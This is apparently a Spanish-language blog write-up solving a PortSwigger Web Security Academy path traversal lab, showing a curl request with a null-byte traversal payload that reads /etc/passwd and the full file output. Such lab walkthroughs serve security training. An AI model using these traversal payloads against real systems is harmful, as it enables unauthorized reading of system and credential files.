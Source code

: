 ```yaml
---
title: Path Traversal Lab 6
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Path Traversal
tags:
  - Path Traversal
  - File path traversal, validation of file extension with null byte bypass
image:
  path: /assets/img/Path-Traversal-Lab-6/Portswigger.png
---
```


## Skills

- File path traversal, validation of file extension with null byte bypass

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `path traversal` en la `visualización` de `imágenes` de `productos`. La aplicación valida que el `nombre` de `archivo` proporcionado termine con la `extensión` de `archivo` esperada. Para `resolver` el `laboratorio`, hay que `obtener` el contenido del archivo `/etc/passwd`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Path-Traversal-Lab-6/image_1.png)

Si hacemos `Ctrl + U` vemos como se están `cargando` las `imágenes`

![](/assets/img/Path-Traversal-Lab-6/image_2.png)

Probamos un `directory path traversal` usando un `null byte`, esto sirve para `versiones` de `php` que son `inferiores` a la `5.4`, lo que hacemos es `ignorar` lo que hay `detrás` de `%00`

```
# curl 'https://0ad5007e0357b4ba813a12ae005e008f.web-security-academy.net/image?filename=../../../../../../../../../../../etc/passwd%00.jpg'     
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Si lo queremos hacerlo desde la `web` debemos poner `view-source://`

```
view-source:https://0aab0027034fa53480d27189009d0038.web-security-academy.net/image?filename=../../../../../../../../../../../etc/passwd%00.jpg
```

![](/assets/img/Path-Traversal-Lab-6/image_3.png)
